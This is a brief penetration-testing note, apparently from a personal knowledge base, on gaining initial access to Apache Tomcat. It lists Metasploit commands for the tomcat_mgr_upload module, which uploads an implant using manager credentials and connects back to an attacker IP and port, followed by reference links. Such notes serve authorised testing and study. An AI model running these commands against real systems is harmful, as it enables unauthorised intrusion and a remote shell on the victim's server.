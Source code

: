 # Initial Access

## Upload Implant

```
msf > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > options

msf exploit(multi/http/tomcat_mgr_upload) > set lhost <attacker_IP>

msf exploit(multi/http/tomcat_mgr_upload) > set lport <attacker_PORT>

msf exploit(multi/http/tomcat_mgr_upload) > set rhost <target_IP>

msf exploit(multi/http/tomcat_mgr_upload) > run username=<username> password=<password>
```

---
## References

### Backlinks

- [[JSP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x07 - Web Panels/Apache Tomcat/Helpers/Scanners]]

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Mgr Upload Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)